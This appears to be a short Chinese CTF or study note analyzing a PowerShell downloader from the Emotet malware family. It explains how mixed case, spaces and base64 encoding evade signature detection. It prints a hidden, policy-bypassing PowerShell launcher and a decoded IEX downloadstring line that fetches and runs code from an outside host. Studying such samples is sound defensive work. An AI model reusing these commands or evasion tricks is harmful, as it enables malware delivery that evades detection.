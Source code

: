 ```yaml
---
title: Powershell脚本
date: 2023-08-29 15:19:49
categories: CTF
tags: [virus]
---
```

## Emptet下载器

技术特点：利用大小写，空格加base64绕过特征检测。

```shell
cmd /c powErshEll -nop -w hiddEn -Ep bypass -Enc {base64_encoded_string}
```

```
I E X   ( N e w - O b j e c t   N e t . W e b c l i e n t ) . d o w n l o a d s t r i n g ( " h t t p : / / e d u c a t i o l i n k . c o m / i n d e x . p h p " ) 
```

 基础知识：

 `-nop`：这是 `-NoProfile` 的简写，启动 PowerShell 时不加载用户的个人档案。 

 -w hiddEn 用于指定 PowerShell 窗口的显示样式。 

 `bypass` 设置表示没有任何限制：脚本可以运行，配置文件可以加载。 